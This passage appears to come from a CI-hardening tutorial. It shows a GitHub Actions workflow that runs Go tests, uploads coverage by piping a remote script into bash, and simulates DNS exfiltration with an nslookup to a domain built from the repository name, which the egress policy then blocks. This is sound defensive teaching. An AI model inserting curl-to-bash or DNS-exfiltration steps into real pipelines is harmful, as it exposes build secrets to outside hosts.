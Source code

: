    ```yaml
           with:
             go-version: "1.17"
         - name: Run coverage
           run: go test -race -coverprofile=coverage.txt -covermode=atomic
         - name: Upload coverage to Codecov
           run: |
             bash <(curl -s https://codecov.io/bash)
         - name: Simulate DNS traffic
           run: |
             domain="${GITHUB_REPOSITORY}.stepsecurity.io"
             domain=${domain//\//-}
             nslookup "${domain}"
   ```

9. This change should cause the workflow to run, as it is set to run on push. Observe that the workflow shows an annotation that the DNS resolution for the call is blocked. If you look at the build logs, you will notice that the bash script did not receive a valid response from the DNS server, and the exfiltration attempt was blocked.

<img src="../images/DNSExfilBlocked.png" alt="Blocked calls are shown in Red" width="800">

10. Install the [Harden Runner App](https://github.com/marketplace/harden-runner-app) to get notified via email or Slack when outbound traffic is blocked.
